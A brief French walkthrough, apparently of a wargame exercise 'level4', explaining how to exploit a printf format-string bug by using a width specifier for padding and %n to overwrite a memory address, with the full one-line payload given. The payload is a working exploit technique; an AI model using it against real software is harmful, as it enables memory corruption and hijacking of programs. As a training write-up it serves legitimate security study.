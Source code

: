 # level4

On a encore un `printf` à exploiter.

On aimerait faire comme l'exercice précédent mais si on veut print `0x1025544` chars, on a un broken pipe !

Donc on écrit n'importe quoi (ici `%x`) et on lui donne une width de `0x1025544` pour que la string soit générée à la volée

On a notre payload:
```bash
./level4 <<<$(python -c "print '\x10\x98\x04\x08' + '%16930111x\n' + '%12\$n'")
```
